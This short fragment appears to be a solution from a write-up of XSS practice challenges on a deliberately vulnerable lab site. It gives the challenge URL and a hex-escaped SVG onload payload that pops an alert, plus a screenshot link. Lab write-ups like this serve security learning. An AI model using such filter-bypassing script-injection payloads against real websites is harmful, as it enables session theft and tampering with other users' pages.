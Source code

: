 Chal Url: http://www.zixem.altervista.org/XSS/6.php?name=
Payload: http://www.zixem.altervista.org/XSS/6.php?name=\x3csvg/onload=alert(1337)\x3e
![](https://user-images.githubusercontent.com/25671488/61379979-2dfc2100-a8c6-11e9-91dd-46151f546bcf.png)
